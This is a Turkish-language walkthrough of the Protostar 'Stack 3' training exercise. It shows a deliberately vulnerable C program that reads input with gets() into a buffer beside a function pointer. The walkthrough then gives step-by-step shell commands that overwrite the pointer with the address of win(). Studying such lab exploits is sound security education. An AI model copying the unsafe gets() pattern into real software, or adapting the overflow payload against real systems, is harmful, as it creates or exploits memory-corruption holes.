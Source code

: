 ## Stack 3
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Burada en başta `fp` isminde bir fonksiyon pointeri tanımlamış ve bu pointera 0 atamış. Bizim amacımız ise bu adresi `win` fonksiyonunun adresi ile değiştirip fonksiyonu çağırmak. Fonksiyonu çağırma işini de kendisi if bloğu içinde yapmış zaten.
```bash
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
calling function pointer, jumping to 0x42424242
Segmentation fault
```
64 tane 'A' ve 4 tane 'B' verdiğimizde fonksiyon pointerini B ile ezebildik ancak bu adrese gidemediği için segmentation fault hatası verdi, 'B' lerin yerine win fonksiyonunun adresini yazacağız. Fonksiyonun adresini öğrenmek için objdump kullanabiliriz. (bkz.[objdump](https://en.wikipedia.org/wiki/Objdump))
```bash
user@protostar:/opt/protostar/bin$ objdump -d stack3 | grep win
08048424 <win>:
```
-d ile dissasemble edip içinden win greplediğimizde adresin `08048424` olduğunu görüyoruz. Bunu 64 karakterin arkasına ekleyip çalıştıralim.

```bash
user@protostar:/opt/protostar/bin$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x24\x84\x04\x08
calling function pointer, jumping to 0x3432785c
Segmentation fault

user@protostar:/opt/protostar/bin$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x24\x84\x04\x08" | ./stack3
calling function pointer, jumping to 0x3432785c
Segmentation fault

user@protostar:/opt/protostar/bin$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x24\x84\x04\x08" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```